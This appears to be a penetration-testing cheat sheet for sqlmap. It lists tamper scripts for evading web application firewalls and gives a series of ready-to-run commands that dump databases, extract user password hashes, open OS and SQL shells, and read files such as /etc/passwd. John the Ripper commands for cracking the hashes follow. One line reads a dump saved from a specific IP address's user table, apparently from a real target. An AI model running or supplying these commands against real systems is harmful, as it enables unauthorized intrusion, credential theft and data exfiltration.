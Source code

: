
Tamper with sqlmap

source: https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3q

source:
https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423

Tamper scripts:

--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords

apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes

tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes




## Examples sqlmap

    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --is-dba --users --passwords --current-db --current-user --hex --hostname --tables --columns

    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --dump --threads 10 --hex


    sqlmap -r req.txt --level=5 --risk=3 --dbs
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --is-dba
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --is-dba --users --passwords --current-db --current-user
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --is-dba --users --passwords --current-db --current-user --hex --hosntame
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --is-dba --users --passwords --current-db --current-user --hex --hostname --tables --columns
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --os-shell
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --sql-shell --threads 10
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --sql-shell --threads 10 --hex
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --users --threads 10 --hex -U 'app' --roles
     cat /root/.sqlmap/output/173.255.254.202/dump/cadastro/usuarios.csv | cut -d, -f 4
     vi hashes
    john --format=raw-md5 -w /root/ownCloud/owncloud/Tools_Utilities/hacking-tools/fuzzdb/wordlists-user-passwd/unix-os/unix_passwords.txt hashes
        
    john --format=raw-md5 -w hashkiller-dict.txt hashes
    sqlmap -r req.txt --file_read=/xampp/htdocs/index.php --batch
    sqlmap -r req.txt --file-read=/etc/passwd --batch
    hash-identifier 6565223a5aa70f89d5f057e961eb1908
 